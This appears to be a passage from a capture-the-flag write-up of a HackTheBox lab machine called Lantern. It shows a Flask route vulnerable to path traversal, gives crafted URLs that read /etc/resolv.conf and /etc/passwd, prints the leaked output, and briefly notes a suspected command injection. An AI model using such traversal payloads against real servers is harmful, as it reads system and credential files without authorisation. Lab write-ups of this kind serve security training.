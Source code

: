 ```
```

from the source code, we can find the `path traversal` vulnerability.
`return send_file(f'/var/www/sites/localisation/{lang}.{file_ext}') `

In the /PrivacyAndPolicy route, it allows users to download files based on the lang and file_ext parameters. If these parameters are not properly sanitized, it could lead to path traversal attacks, allowing an attacker to access sensitive files outside the intended directory.

Therefore, we could craft a URL like /PrivacyAndPolicy?lang=../../../../etc/resolv&ext=conf (the file name must be concat with two parameters for {lang}.{ext}) to access the /etc/resolv.conf file or other sensitive files on the server:

```
/etc/resolv.conf
http://lantern.htb/PrivacyAndPolicy?lang=../../../../etc/resolv&ext=conf

# This is /run/systemd/resolve/stub-resolv.conf managed by man:systemd-resolved(8).
# Do not edit.
#
# This file might be symlinked as /etc/resolv.conf. If you're looking at
# /etc/resolv.conf and seeing this text, you have followed the symlink.
#
# This is a dynamic resolv.conf file for connecting local clients to the
# internal DNS stub resolver of systemd-resolved. This file lists all
# configured search domains.
#
# Run "resolvectl status" to see details about the uplink DNS servers
# currently in use.
#
# Third party programs should typically not access this file directly, but only
# through the symlink at /etc/resolv.conf. To manage man:resolv.conf(5) in a
# different way, replace this symlink by a static file or a different symlink.
#
# See man:systemd-resolved.service(8) for details about the supported modes of
# operation for /etc/resolv.conf.

nameserver 127.0.0.53
options edns0 trust-ad
search .

/etc/passwd
http://lantern.htb/PrivacyAndPolicy?lang=../../../../&ext=./etc/passwd

tomas:x:1000:1000:tomas:/home/tomas:/bin/bash
```

Besides these, we can also find another command injection in the choose modulus
![[Pasted image 20240829102853.png]]

The error seems telling us this endpoint is able to load/execute a DLL assembly under the path /opt/component.thecybersecguru.dll—when we provide the filename as thecybersecguru.

